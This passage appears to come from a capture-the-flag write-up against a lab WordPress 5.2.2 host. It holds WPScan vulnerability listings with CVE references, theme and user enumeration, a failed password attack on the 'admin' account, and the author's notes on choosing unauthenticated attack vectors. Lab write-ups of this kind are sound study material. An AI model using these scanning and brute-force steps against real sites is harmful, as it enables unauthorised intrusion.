 | [!] Title: WordPress <= 5.3 - Authenticated Improper Access Controls in REST API
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/4a6de154-5fbd-4c80-acd3-8902ee431bd8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20043
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16788
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-g7rg-hchx-c2gw
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Crafted Links
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/23553517-34e3-40a9-a406-f3ffbe9dd265
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20042
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://hackerone.com/reports/509930
 |      - https://github.com/WordPress/wordpress-develop/commit/1f7f3f1f59567e2504f0fbebd51ccf004b3ccb1d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xvg2-m2f4-83m7
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Block Editor Content
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/be794159-4486-4ae1-a5cc-5c190e5ddf5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16781
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16780
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pg4x-64rh-3c9v
 |
 | [!] Title: WordPress <= 5.3 - wp_kses_bad_protocol() Colon Bypass
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/8fac612b-95d2-477a-a7d6-e5ec0bb9ca52
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20041
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/b1975463dd995da19bb40d3fa0786498717e3c53
 |
 | [!] Title: WordPress < 5.4.1 - Password Reset Tokens Failed to Be Properly Invalidated
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/7db191c0-d112-4f08-a419-a1cd81928c4e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11027
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47634/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-ww7v-jg8c-q6jw
 |
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/d1e1ba25-98c9-4ae7-8027-9632fb825a56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11028
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47635/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xhx9-759f-6p2w
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Customizer
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/4eee26bd-a27e-4509-a3a5-8019dd48e429
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11025
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47633/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4mhg-j6fx-5g3c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Search Block
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/e4bda91b-067d-45e4-a8be-672ccf8b1a06
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11030
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47636/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-vccm-6gmc-qhjh
 |
 | [!] Title: WordPress < 5.4.1 - Cross-Site Scripting (XSS) in wp-object-cache
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/e721d8b9-a38f-44ac-8520-b4a9ed6a5157
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11029
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47637/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-568w-8m88-8g2c
 |
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in File Uploads
 |     Fixed in: 5.2.6
 |     References:
 |      - https://wpscan.com/vulnerability/55438b63-5fc9-4812-afc4-2f1eff800d5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-11026
 |      - https://wordpress.org/news/2020/04/wordpress-5-4-1/
 |      - https://core.trac.wordpress.org/changeset/47638/
 |      - https://www.wordfence.com/blog/2020/04/unpacking-the-7-vulnerabilities-fixed-in-todays-wordpress-5-4-1-security-update/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-3gw2-4656-pfr2
 |      - https://hackerone.com/reports/179695
 |
 | [!] Title: WordPress <= 5.2.3 - Hardening Bypass
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/378d7df5-bce2-406a-86b2-ff79cd699920
 |      - https://blog.ripstech.com/2020/wordpress-hardening-bypass/
 |      - https://hackerone.com/reports/436928
 |      - https://wordpress.org/news/2019/11/wordpress-5-2-4-update/
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS in Block Editor
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/831e4a94-239c-4061-b66e-f5ca0dbb84fa
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4046
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-rpwf-hrh2-39jf
 |      - https://pentest.co.uk/labs/research/subtle-stored-xss-wordpress-core/
 |      - https://www.youtube.com/watch?v=tCh7Y8z8fb4
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS via Media Files
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/741d07d1-2476-430a-b82f-e1228a9343a4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4047
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-8q2w-5m27-wm27
 |
 | [!] Title: WordPress < 5.4.2 - Open Redirection
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/12855f02-432e-4484-af09-7d0fbf596909
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4048
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/10e2a50c523cf0b9785555a688d7d36a40fbeccf
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-q6pw-gvf4-5fj5
 |
 | [!] Title: WordPress < 5.4.2 - Authenticated Stored XSS via Theme Upload
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/d8addb42-e70b-4439-b828-fd0697e5d9d4
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4049
 |      - https://www.exploit-db.com/exploits/48770/
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-87h4-phjv-rm6p
 |      - https://hackerone.com/reports/406289
 |
 | [!] Title: WordPress < 5.4.2 - Misuse of set-screen-option Leading to Privilege Escalation
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/b6f69ff1-4c11-48d2-b512-c65168988c45
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-4050
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/dda0ccdd18f6532481406cabede19ae2ed1f575d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-4vpv-fgg2-gcqc
 |
 | [!] Title: WordPress < 5.4.2 - Disclosure of Password-Protected Page/Post Comments
 |     Fixed in: 5.2.7
 |     References:
 |      - https://wpscan.com/vulnerability/eea6dbf5-e298-44a7-9b0d-f078ad4741f9
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25286
 |      - https://wordpress.org/news/2020/06/wordpress-5-4-2-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/c075eec24f2f3214ab0d0fb0120a23082e6b1122
 |
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 |     Fixed in: 5.2.10
 |     References:
 |      - https://wpscan.com/vulnerability/6a3ec618-c79e-4b9c-9020-86b157458ac5
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-29450
 |      - https://wordpress.org/news/2021/04/wordpress-5-7-1-security-and-maintenance-release/
 |      - https://blog.wpscan.com/2021/04/15/wordpress-571-security-vulnerability-release.html
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pmmh-2f36-wvhq
 |      - https://core.trac.wordpress.org/changeset/50717/
 |      - https://www.youtube.com/watch?v=J2GXmxAdNWs
 |
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 |     Fixed in: 5.2.11
 |     References:
 |      - https://wpscan.com/vulnerability/4cd46653-4470-40ff-8aac-318bee2f998d
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-36326
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-19296
 |      - https://github.com/WordPress/WordPress/commit/267061c9595fedd321582d14c21ec9e7da2dcf62
 |      - https://wordpress.org/news/2021/05/wordpress-5-7-2-security-release/
 |      - https://github.com/PHPMailer/PHPMailer/commit/e2e07a355ee8ff36aba21d0242c5950c56e4c6f9
 |      - https://www.wordfence.com/blog/2021/05/wordpress-5-7-2-security-release-what-you-need-to-know/
 |      - https://www.youtube.com/watch?v=HaW15aMzBUM
 |
 | [!] Title: WordPress < 5.8.2 - Expired DST Root CA X3 Certificate
 |     Fixed in: 5.2.13
 |     References:
 |      - https://wpscan.com/vulnerability/cc23344a-5c91-414a-91e3-c46db614da8d
 |      - https://wordpress.org/news/2021/11/wordpress-5-8-2-security-and-maintenance-release/
 |      - https://core.trac.wordpress.org/ticket/54207
 |
 | [!] Title: WordPress < 5.8 - Plugin Confusion
 |     Fixed in: 5.8
 |     References:
 |      - https://wpscan.com/vulnerability/95e01006-84e4-4e95-b5d7-68ea7b5aa1a8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44223
 |      - https://vavkamil.cz/2021/11/25/wordpress-plugin-confusion-update-can-get-you-pwned/

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating All Themes (via Passive and Aggressive Methods)
 Checking Known Locations - Time: 00:00:26 <===============================> (23452 / 23452) 100.00% Time: 00:00:26
[+] Checking Theme Versions (via Passive and Aggressive Methods)

[i] Theme(s) Identified:

[+] twentynineteen
 | Location: http://192.168.56.88/h3l105/wp-content/themes/twentynineteen/
 | Last Updated: 2021-07-22T00:00:00.000Z
 | Readme: http://192.168.56.88/h3l105/wp-content/themes/twentynineteen/readme.txt
 | [!] The version is out of date, the latest version is 2.1
 | Style URL: http://192.168.56.88/h3l105/wp-content/themes/twentynineteen/style.css
 | Style Name: Twenty Nineteen
 | Style URI: https://wordpress.org/themes/twentynineteen/
 | Description: Our 2019 default theme is designed to show off the power of the block editor. It features custom sty...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.56.88/h3l105/wp-content/themes/twentynineteen/, status: 500
 |
 | Version: 1.4 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://192.168.56.88/h3l105/wp-content/themes/twentynineteen/style.css, Match: 'Version: 1.4'

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:00 <====================================> (137 / 137) 100.00% Time: 00:00:00

[i] No Config Backups Found.

[+] Enumerating DB Exports (via Passive and Aggressive Methods)
 Checking DB Exports - Time: 00:00:00 <==========================================> (71 / 71) 100.00% Time: 00:00:00

[i] No DB Exports Found.

[+] Enumerating Users (via Passive and Aggressive Methods)
 Brute Forcing Author IDs - Time: 00:00:00 <=====================================> (10 / 10) 100.00% Time: 00:00:00

[i] User(s) Identified:

[+] admin
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] Performing password attack on Wp Login against 1 user/s
Trying admin / platform Time: 00:00:03 <=========================================> (71 / 71) 100.00% Time: 00:00:03

[i] No Valid Passwords Found.

[+] WPScan DB API OK
 | Plan: free
 | Requests Done (during the scan): 2
 | Requests Remaining: 23

[+] Finished: Tue Jan  4 13:09:59 2022
[+] Requests Done: 23789
[+] Cached Requests: 6
[+] Data Sent: 6.418 MB
[+] Data Received: 3.827 MB
[+] Memory used: 289.32 MB
[+] Elapsed time: 00:00:46

```

#### potential vectors

[checkout 4.out-wpscan.txt](4.out-wpscan.txt)

```shell
grep  "Title" out-wpscan.txt
 | [!] Title: WordPress 5.2.2 - Cross-Site Scripting (XSS) in Stored Comments
 | [!] Title: WordPress 5.2.2 - Authenticated Cross-Site Scripting (XSS) in Post Previews
 | [!] Title: WordPress 5.2.2 - Potential Open Redirect
 | [!] Title: WordPress 5.0-5.2.2 - Authenticated Stored XSS in Shortcode Previews
 | [!] Title: WordPress 5.2.2 - Cross-Site Scripting (XSS) in Dashboard
 | [!] Title: WordPress <= 5.2.2 - Cross-Site Scripting (XSS) in URL Sanitisation
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Customizer
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Style Tags
 | [!] Title: WordPress <= 5.2.3 - JSON Request Cache Poisoning
 | [!] Title: WordPress <= 5.2.3 - Server-Side Request Forgery (SSRF) in URL Validation
 | [!] Title: WordPress <= 5.2.3 - Admin Referrer Validation
 | [!] Title: WordPress <= 5.3 - Authenticated Improper Access Controls in REST API
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Crafted Links
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Block Editor Content
 | [!] Title: WordPress <= 5.3 - wp_kses_bad_protocol() Colon Bypass
 | [!] Title: WordPress < 5.4.1 - Password Reset Tokens Failed to Be Properly Invalidated
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Customizer
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in Search Block
 | [!] Title: WordPress < 5.4.1 - Cross-Site Scripting (XSS) in wp-object-cache
 | [!] Title: WordPress < 5.4.1 - Authenticated Cross-Site Scripting (XSS) in File Uploads
 | [!] Title: WordPress <= 5.2.3 - Hardening Bypass
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS in Block Editor
 | [!] Title: WordPress < 5.4.2 - Authenticated XSS via Media Files
 | [!] Title: WordPress < 5.4.2 - Open Redirection
 | [!] Title: WordPress < 5.4.2 - Authenticated Stored XSS via Theme Upload
 | [!] Title: WordPress < 5.4.2 - Misuse of set-screen-option Leading to Privilege Escalation
 | [!] Title: WordPress < 5.4.2 - Disclosure of Password-Protected Page/Post Comments
 | [!] Title: WordPress 4.7-5.7 - Authenticated Password Protected Pages Exposure
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 | [!] Title: WordPress < 5.8.2 - Expired DST Root CA X3 Certificate
 | [!] Title: WordPress < 5.8 - Plugin Confusion

```

We don't need authenticated and XSS attacks.

```shell
grep "Title" out-wpscan.txt | grep -v "XSS\|Authenticated"
 | [!] Title: WordPress 5.2.2 - Potential Open Redirect
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 | [!] Title: WordPress <= 5.2.3 - JSON Request Cache Poisoning
 | [!] Title: WordPress <= 5.2.3 - Server-Side Request Forgery (SSRF) in URL Validation
 | [!] Title: WordPress <= 5.2.3 - Admin Referrer Validation
 | [!] Title: WordPress <= 5.3 - wp_kses_bad_protocol() Colon Bypass
 | [!] Title: WordPress < 5.4.1 - Password Reset Tokens Failed to Be Properly Invalidated
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts
 | [!] Title: WordPress <= 5.2.3 - Hardening Bypass
 | [!] Title: WordPress < 5.4.2 - Open Redirection
 | [!] Title: WordPress < 5.4.2 - Misuse of set-screen-option Leading to Privilege Escalation
 | [!] Title: WordPress < 5.4.2 - Disclosure of Password-Protected Page/Post Comments
 | [!] Title: WordPress 3.7 to 5.7.1 - Object Injection in PHPMailer
 | [!] Title: WordPress < 5.8.2 - Expired DST Root CA X3 Certificate
 | [!] Title: WordPress < 5.8 - Plugin Confusion

```

We should look at Unauthenticated ones first, since we don't have credentials as of yet, and the ones we have don't work on wp.

```shell
grep "Title" out-wpscan.txt | grep -v "XSS\|Authenticated" | grep Unauthenticated
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 | [!] Title: WordPress < 5.4.1 - Unauthenticated Users View Private Posts

```

I couldn't get these to work. Had to rescan using symfonos.local.


```shell
wpscan --url http://symfonos.local/h3l105 --api-token="$WP_API_TOKEN" --enumerate ap,at,cb,dbe,u
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.20
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://symfonos.local/h3l105/ [192.168.56.88]
[+] Started: Tue Jan  4 13:59:22 2022

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.25 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://symfonos.local/h3l105/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://symfonos.local/h3l105/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://symfonos.local/h3l105/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://symfonos.local/h3l105/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.2.2 identified (Insecure, released on 2019-06-18).
 | Found By: Rss Generator (Passive Detection)
 |  - http://symfonos.local/h3l105/index.php/feed/, <generator>https://wordpress.org/?v=5.2.2</generator>
 |  - http://symfonos.local/h3l105/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.2.2</generator>
 |
 | [!] 33 vulnerabilities identified:
 |
 | [!] Title: WordPress 5.2.2 - Cross-Site Scripting (XSS) in Stored Comments
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/1b880386-021d-43b1-9988-e196955c7a3e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16218
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |
 | [!] Title: WordPress 5.2.2 - Authenticated Cross-Site Scripting (XSS) in Post Previews
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/140eece9-0cf9-4e0f-81c9-c22955588548
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16223
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |
 | [!] Title: WordPress 5.2.2 - Potential Open Redirect
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/a5fa3ed3-aaf0-4b2f-bead-b1d2956e3403
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16220
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/c86ee39ff4c1a79b93c967eb88522f5c09614a28
 |
 | [!] Title: WordPress 5.0-5.2.2 - Authenticated Stored XSS in Shortcode Previews
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/8aca2325-14b8-4b9d-94bd-d20b2c3b0c77
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16219
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |      - https://fortiguard.com/zeroday/FG-VD-18-165
 |      - https://www.fortinet.com/blog/threat-research/wordpress-core-stored-xss-vulnerability.html
 |
 | [!] Title: WordPress 5.2.2 - Cross-Site Scripting (XSS) in Dashboard
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/6034fc8a-c418-467a-a7cf-893d1524447e
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16221
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |
 | [!] Title: WordPress <= 5.2.2 - Cross-Site Scripting (XSS) in URL Sanitisation
 |     Fixed in: 5.2.3
 |     References:
 |      - https://wpscan.com/vulnerability/4494a903-5a73-4cad-8c14-1e7b4da2be61
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16222
 |      - https://wordpress.org/news/2019/09/wordpress-5-2-3-security-and-maintenance-release/
 |      - https://github.com/WordPress/WordPress/commit/30ac67579559fe42251b5a9f887211bf61a8ed68
 |      - https://hackerone.com/reports/339483
 |
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Customizer
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/d39a7b84-28b9-4916-a2fc-6192ceb6fa56
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17674
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Unauthenticated View Private/Draft Posts
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/3413b879-785f-4c9f-aa8a-5a4a1d5e0ba2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17671
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |      - https://github.com/WordPress/WordPress/commit/f82ed753cf00329a5e41f2cb6dc521085136f308
 |      - https://0day.work/proof-of-concept-for-wordpress-5-2-3-viewing-unauthenticated-posts/
 |
 | [!] Title: WordPress <= 5.2.3 - Stored XSS in Style Tags
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/d005b1f8-749d-438a-8818-21fba45c6465
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17672
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - JSON Request Cache Poisoning
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/7804d8ed-457a-407e-83a7-345d3bbe07b2
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17673
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/b224c251adfa16a5f84074a3c0886270c9df38de
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Server-Side Request Forgery (SSRF) in URL Validation
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/26a26de2-d598-405d-b00c-61f71cfacff6
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17669
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17670
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/9db44754b9e4044690a6c32fd74b9d5fe26b07b2
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.2.3 - Admin Referrer Validation
 |     Fixed in: 5.2.4
 |     References:
 |      - https://wpscan.com/vulnerability/715c00e3-5302-44ad-b914-131c162c3f71
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-17675
 |      - https://wordpress.org/news/2019/10/wordpress-5-2-4-security-release/
 |      - https://github.com/WordPress/WordPress/commit/b183fd1cca0b44a92f0264823dd9f22d2fd8b8d0
 |      - https://blog.wpscan.com/wordpress/security/release/2019/10/15/wordpress-524-security-release-breakdown.html
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Improper Access Controls in REST API
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/4a6de154-5fbd-4c80-acd3-8902ee431bd8
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20043
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16788
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-g7rg-hchx-c2gw
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Crafted Links
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/23553517-34e3-40a9-a406-f3ffbe9dd265
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20042
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://hackerone.com/reports/509930
 |      - https://github.com/WordPress/wordpress-develop/commit/1f7f3f1f59567e2504f0fbebd51ccf004b3ccb1d
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-xvg2-m2f4-83m7
 |
 | [!] Title: WordPress <= 5.3 - Authenticated Stored XSS via Block Editor Content
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/be794159-4486-4ae1-a5cc-5c190e5ddf5f
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16781
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-16780
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/security/advisories/GHSA-pg4x-64rh-3c9v
 |
 | [!] Title: WordPress <= 5.3 - wp_kses_bad_protocol() Colon Bypass
 |     Fixed in: 5.2.5
 |     References:
 |      - https://wpscan.com/vulnerability/8fac612b-95d2-477a-a7d6-e5ec0bb9ca52
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-20041
 |      - https://wordpress.org/news/2019/12/wordpress-5-3-1-security-and-maintenance-release/
 |      - https://github.com/WordPress/wordpress-develop/commit/b1975463dd995da19bb40d3fa0786498717e3c53
 |
 | [!] Title: WordPress < 5.4.1 - Password Reset Tokens Failed to Be Properly Invalidated
 |     Fixed in: 5.2.6
 |     References:
